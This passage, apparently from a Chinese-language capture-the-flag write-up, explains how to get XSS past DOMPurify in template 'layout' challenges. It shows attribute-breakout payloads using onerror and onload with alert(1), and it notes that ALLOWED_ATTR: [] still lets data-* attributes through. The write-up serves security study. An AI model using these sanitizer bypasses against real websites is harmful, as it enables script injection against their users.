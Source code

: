 ```
<img src=1 >
```

![image-20250310150425084](../assets/image-20250310150425084.png)

但是如果我们传入的内容不为html结构的时候，DOMPurify无法对元素进行解析和净化，是可以正常传入onerror的

所以可以这样构造payload

```
layout：
<img src="{{content}}">

content：
1" onerror="alert(1)
```

![image-20250310151407766](../assets/image-20250310151407766.png)

![image-20250310151430463](../assets/image-20250310151430463.png)



### safe-layout

这题和上一题的区别是增加了ALLOWED_ATTR: []

```
  const sanitizedContent = DOMPurify.sanitize(content, { ALLOWED_ATTR: [] });
```

一个类似白名单的东西。

但是这玩意其实并不是白名单，虽然说禁用了所有的属性，但是data-\*和aira-\*属性还是可以正常使用的

这篇文章中有提到：

https://mizu.re/post/exploring-the-dompurify-library-hunting-for-misconfigurations#dangerous-allow-lists

![image-20250313102830351](../assets/image-20250313102830351.png)

所以可以构造出payload

content

```
123" onload="alert(1)
```

layout

```
<svg data-type="{{content}}"></svg>
```

或者是

layout
